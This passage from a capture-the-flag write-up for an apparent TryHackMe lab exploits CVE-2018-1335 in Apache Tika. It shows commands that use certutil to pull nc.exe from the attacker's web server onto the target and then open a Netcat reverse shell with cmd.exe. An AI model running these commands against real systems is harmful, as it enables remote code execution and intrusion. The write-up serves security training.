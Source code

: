 We can copy it in a file in our working dir and execute it with [[Python]] 3 :

```
┌──(hax㉿HaxonKali)-[~/THM/CHALLENGES/Easy/Cybelens]
└─$ python3 exploit.py       
Usage: python3 CVE-2018-1335.py <host> <port> <command>
Example: python3 CVE-2018-1335.py localhost 9998 calc.exe

```

So we need a command and we need a shell so we need to install [[Netcat]] on the [[Vulnerable Machine]] by `locate nc.exe` and then `cp path/nc.exe .` and hosting a simple web server :

```
┌──(hax㉿HaxonKali)-[~/THM/CHALLENGES/Easy/Cybelens]
└─$ python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...

```

Now we transfer :

```
┌──(hax㉿HaxonKali)-[~/THM/CHALLENGES/Easy/Cybelens]
└─$ python3 exploit.py cyberlens.thm 61777 "certutil -urlcache -f http://10.8.162.183:8080/nc.exe C:/Users/Public/nc.exe"

```

We should see that in the server :

```
──(hax㉿HaxonKali)-[~/…/CHALLENGES/Easy/Cybelens/web-server]
└─$ python3 -m http.server 80  
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.60.241 - - [12/Jul/2025 12:39:40] "GET /nc.exe HTTP/1.1" 200 -
10.10.60.241 - - [12/Jul/2025 12:39:41] "GET /nc.exe HTTP/1.1" 200 -
10.10.60.241 - - [12/Jul/2025 12:39:41] "GET /nc.exe HTTP/1.1" 200 -
10.10.60.241 - - [12/Jul/2025 12:39:42] "GET /nc.exe HTTP/1.1" 200 -
^C
Keyboard interrupt received, exiting.

```

### Netcat - Reverse Shell

We can close it and open a [[Netcat]] listener :

```
──(hax㉿HaxonKali)-[~/…/CHALLENGES/Easy/Cybelens/web-server]
└─$ nc -lvnp 1337 
listening on [any] 1337 ...

```

Now we execute the [[Exploit]] :

```
┌──(hax㉿HaxonKali)-[~/THM/CHALLENGES/Easy/Cybelens]
└─$ python3 exploit.py cyberlens.thm 61777 "C:/Users/Public/nc.exe 10.8.162.183 1337 -e cmd.exe"

```
